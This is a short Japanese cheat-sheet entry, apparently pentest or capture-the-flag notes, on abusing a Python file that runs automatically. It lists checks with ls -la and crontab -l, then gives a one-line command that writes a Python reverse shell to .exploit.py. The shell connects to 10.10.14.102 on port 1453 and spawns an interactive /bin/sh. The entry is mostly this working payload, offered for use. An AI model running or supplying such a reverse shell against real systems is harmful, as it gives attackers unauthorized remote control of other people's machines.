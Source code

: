 ## 自動的に読み込まれる.pyを確認した場合
- 調査方法
  - `ls -la`で更新時間の確認
  - `crontab -l`で確認
```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.102\",1453));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > .exploit.py
```
